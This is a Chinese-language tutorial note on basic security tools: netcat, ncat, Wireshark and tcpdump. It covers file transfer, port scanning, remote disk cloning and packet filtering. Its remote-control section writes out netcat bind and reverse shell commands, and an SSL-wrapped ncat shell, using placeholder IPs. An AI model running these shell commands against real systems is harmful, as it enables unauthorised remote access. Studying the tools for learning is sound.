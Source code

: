 # 基本工具

### 1.netcat(nc) 
      
-v 显示详细输出内容  
-n 跟IP地址，不进行DNS解析  
-l 打开一个listen端口   
-p 端口号   
-q n 当标准输出完成后延迟n秒断开   
-z 扫描模式，不做I/O操作   
    
#### (1)telnet/banner   
	nc -vn ip地址 端口号   
	pop3(110)   
	smtp(25)   
	http(80)   
   
#### (2)传输文本信息   
	sudo nc -l -p 333 (sudo netstat -pantu | grep 333)   
	可用于电子取证,直接传送，不在当前设备保存   
	如： 连接端：ls -l | nc -nv 10.1.1.12 333   
		 打开端：nc -l -p 333 > content.txt   
		    
#### (3)传输文件/目录   
#### 文件：    
	A: nc -lp 333 > 1/mp4   
	B: nc -nv 1.1.1.1 333 < 1.mp4 -q 1   
	或   
	A: nc -q 1 -lp 333 < a.mp4   
	B: nc -nv 1.1.1.1 333 > 2.mp4   
#### 目录：   
	A: tar -cvf - music/ | nc -lp 333 -q 1   
	B: nc -nv 1.1.1.1 333 | tar -xvf -   
#### 加密传文件：  
	A: nc -lp 333 | mcrypt --flush -Fbqd -a rijindael-256 -m ecb > 1.mp4   
	B: mcrypt --flush -Fbq -a rijindael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1   
   
#### (4)流媒体服务器   
	A: cat 1.mp4 | nc -lp 333   
	B: nc -vn 1.1.1.1 333 | mpalyer -vo x11 -cache 3000 -   
   
#### (5)端口扫描(扫描器的结果都不一定是正确的)   
	nc -nvz 1.1.1.1 1-65535   
	默认探测tcp端口，加上u选项探测udp端口   
	nc -vnzu 1.1.1.1 1-1024   

#### (6)远程克隆硬盘   
	A: nc -lp 333 | dd of=/dev/sda   
	B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1   
	远程电子取证，可以将目标服务器硬盘远程复制，或者内存   
	不仅是文件，每个磁道，包括已标记删除的信息,完整的硬盘复制   

#### (7)远程控制   
#### 正向：   
	A: nc -lp 333 -c bash   
	B: nc 1.1.1.1 333   
#### 反向：   
	A: nc -lp 333   
	B: nc 1.1.1.1 333 -c bash   
*注： Windows用户把bash改成cmd*   

### 2.ncat   
**nc的缺点：**   
	nc缺乏加密和身份验证的能力   
	    
ncat包含于nmap工具包中   
	--allow 允许连接的IP地址   
	A: ncat -c bash --allow 192.168.20.14 -vnl 333 --ssl(用ssl加密)   
	B: ncat -nv 1.1.1.1 333 --ssl   
注：不同系统/平台的nc参数功能不尽相同   

### 3.wireshark   
manjaro安装GUI版本：   
	yaourt -S wireshark-qt   
需用sudo wireshark图形化版本以顺利使用全部功能   
抓包嗅探协议分析   
安全专家必备的技能   
抓包引擎   
* Libpcap9——Linux   
* Winpcap10——Windows   
解码能力(衡量抓包工具优劣的重要指标)   
若不勾选使用混杂模式，不会抓取发送给本地IP地址之外的包   
   
#### 筛选器：    
	过滤掉干扰的数据包   
	抓包过滤器：抓包时过滤   
	显示过滤器：显示时过滤，往往用的更多   
	Network -> Capture Filters -> Capture Engine -> Display Filter   

实时抓包，停止后可以保存，建议使用pcap格式(兼容性较高)   
Edit -> Preferences调整界面布局等首选项内容   

TTL(Time to live)   
#### 常见协议包：   
	数据包的分层结构(统计信息、二层报头、三层报头、四层报头...)   
	ARP,ICMP,TCP,UDP,DNS,HTTP,FTP...   
	IP是三层报头   
	四层协议不仅是TCP(Protocol:6)和UDP(17)两种协议,0-255,ICMP(1),IGMP(2)...   
	二层报头先是源地址再是目的地址，三层报头先是目的地址再是源地址   
	TCP的三次握手: [SYN], [SYN, ACK], [ACK]   
	TCP开销相对于UDP较大   
	DNS是基于四层UDP协议之上的应用层协议,域名解析   
	HTTP是基于TCP协议的应用层协议   
		HTTP/1.1\r\n结尾   
	FTP也是基于TCP协议的应用层协议   
	wireshark默认通过端口来识别协议，如HTTP通常在80，若在8080则不会按HTTP解析，可以右键选择decode as来手动选择协议   
   
#### 数据流：   
	HTTP、SMTP、POP3、SSL   
	更清晰地看到访问过程   
	右键包 follow xxx stream   
	HTTP,SMTP,POP3基本上是完全明文传输的，提倡用SSL(Secure Sockets Layer)等加密   
	SSL加密通信过程中，最初的几个包进行SSL公钥传输及加密秘钥的交换，信息会以明文形式传输，但这些信息无法用于解密   

#### 信息统计：   
	wireshark官网下有各类协议的学习文件   
	大多statistics菜单下   
	Summary 抓包文件的摘要信息   
	Endpoints 了解当前这些包中一共有几个IP地址   
	Protocol Hierarchy 可查看当前抓的数据包都是什么协议类型   
		DNS占比过大时往往不正常   
	Conversation 查看两台机期间产生的会话及产生的数据量(查看中僵尸程序的服务器)   
	Expert Info 专家系统信息提示   
   
wireshark抓大流量时略有欠缺,但应用很广，有很多基于wireshark开发的抓包软件   
#### 企业抓包部署方案：   
	Sniffer   
	Cace/riverbed   
	Cascad pilot   
	全流量抓包，需要一个镜像端口   
   
### 4.tcpdump   
no-GUI的抓包分析工具   
Linux、Unix系统默认安装(说是这么说但是manjaro下没有，pacman安装一下即可)   
   
#### 抓包：   
    默认只抓68个字节   
    -i interface   
    -s snaplen 大小   
    -w file   
    tcpdump -i eth0 -s 0 -w file.pcap   
    tcpdump -i eth0 port 22 (筛选器)   
   
#### 读取抓包文件：   
    tcpdump [-A] -r file.pcap   
    -A 以ascii码显示   
    -X 以十六进制显示   
   
#### 筛选：   
    -n 不解析域名，显示IP地址   
    用管道:   
        tcpdump -n -r http.cap | awk'{print $3}' | sort -u   
    按来源IP:   
        tcpdump -n src host 145.254.160.237 -r http.cap   
    按目标IP:   
        tcpdump -n dst host 145.254.160.237 -r http.cap   
    按端口号:   
        tcpdump -n port 53 -r http.cap   
        tcpdump -nX port 80 -r http.cap   
    高级筛选:   
        按位01转化成十进制数,规定第x个字节的值   
        tcpdump -A -n 'tcp[13] = 24' -r http.cap   
